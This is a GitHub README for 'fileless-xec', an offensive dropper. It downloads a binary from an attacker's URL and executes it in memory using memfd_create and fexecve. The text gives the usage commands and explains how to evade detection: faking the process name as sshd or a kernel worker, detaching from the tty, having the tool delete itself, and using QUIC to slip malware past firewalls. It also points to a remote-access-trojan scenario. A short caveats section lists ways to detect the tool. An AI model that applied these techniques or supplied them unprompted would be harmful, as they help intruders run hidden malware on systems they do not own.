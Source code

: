 <h1 align=center> ➲ fileless-xec 🦜</h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine

## ➲ Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

**[➪ Install](https://github.com/ariary/fileless-xec/blob/main/install.md)**

 - simple usage `fileless-xec <binary_url>` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/fileless-xec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun). Once writeNsleep started fileless-xec will delete itself (<code>--self-remove</code>)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* [Bypass network restriction using ICMP](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
  * [RAT (Remote Access Trojan) scenario](https://github.com/ariary/fileless-xec/blob/main/usage.md#rat-remote-access-trojan-scenario)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## ➲ Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```

Or also [`opensnoop`](https://github.com/brendangregg/perf-tools/blob/master/opensnoop) (but not by [`execsnoop`](https://github.com/brendangregg/perf-tools/blob/master/execsnoop))

Or seccomp profile auditing `execve` syscall (but it is very overwhelming as a `sleep` command also use execve)


<div align="center"><img src="https://user-images.githubusercontent.com/14805903/145359418-394e0133-605d-498f-8f9c-8ecdd0dba8ac.png"></div>
